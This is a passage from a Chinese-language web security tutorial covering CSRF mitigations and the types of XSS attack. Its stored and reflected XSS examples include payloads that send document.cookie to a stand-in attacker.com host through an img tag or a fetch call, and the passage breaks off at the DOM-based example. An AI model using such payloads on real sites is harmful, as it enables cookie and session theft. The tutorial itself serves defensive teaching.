 **设置 Cookie 的 SameSite 属性**

```
// SameSite=Strict：完全禁止第三方Cookie// SameSite=Lax：宽松模式，允许部分安全请求携带CookieSet-Cookie: SameSite=Strict
```

**关键操作二次验证**

```
// 转账前要求密码确认async function transfer() {  await verifyPassword();  // 后续逻辑...}
```

### **2.2 XSS（跨站脚本攻击）**

#### **2.2.1 简介**

XSS（Cross-Site Scripting，跨站脚本攻击）是一种常见的 Web 安全漏洞，攻击者通过在网页中注入恶意脚本，当其他用户浏览该页面时，脚本会在用户浏览器中执行，从而达到攻击目的。

#### **2.2.2 攻击场景与实例**

**存储型 XSS**

*   场景：用户输入持久化到数据库后渲染到页面
    

![](https://mmbiz.qpic.cn/mmbiz_png/T81bAV0NNNicJrJ7ia9lCMpWj5Wnom96fGB8n2YoIWvhlJ37Z7uX5WhbGPTjD9KZmLY6dDASWiaIAapCQSV7IiaMZA/640?wx_fmt=png&from=appmsg#imgIndex=1)存储型 XSS 攻击流程

*   案例：
    
    ```
    // 恶意用户提交的评论内容 这产品真好用！<img src="https://attacker.com/steal?cookie='+document.cookie'">// 当其他用户浏览该页面查看此评论时，攻击者窃取登录凭证
    ```
    

**反射型 XSS**

*   场景：用户点击恶意链接或访问被篡改的页面构造的 URL 参数
    

![](https://mmbiz.qpic.cn/mmbiz_png/T81bAV0NNNicJrJ7ia9lCMpWj5Wnom96fGSM8HbsZe72EP2iaGCcZa3PNKkGSFSsfW9ZlKdwIKqDqPa3qc71PPtibg/640?wx_fmt=png&from=appmsg#imgIndex=2)反射型 XSS 攻击流程

*   案例：
    
    ```
    // 恶意攻击URL https://example.com/search?q=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>// 用户点击恶意URL后发送带发送带恶意参数的请求 GET /search?q=<script>...</script>// 服务端未过滤直接拼接进HTML响应或返回搜索词q前端直接渲染 <div>{{q}}</div>// 浏览器执行恶意脚本，窃取Cookie或重定向页面等 fetch('https://attacker.com/steal?cookie='+document.cookie)
    ```
    

**DOM 型 XSS**

*   场景：前端 JS 动态操作 DOM 时注入
    

![](https://mmbiz.qpic.cn/mmbiz_png/T81bAV0NNNicJrJ7ia9lCMpWj5Wnom96fGsmt1kjhNFicNMREc1cysfQdiaS76yDRBUdekcWYwibPD09uGbZOww7zicw/640?wx_fmt=png&from=appmsg#imgIndex=3) DOM 型 XSS 攻击流程

*   案例：
    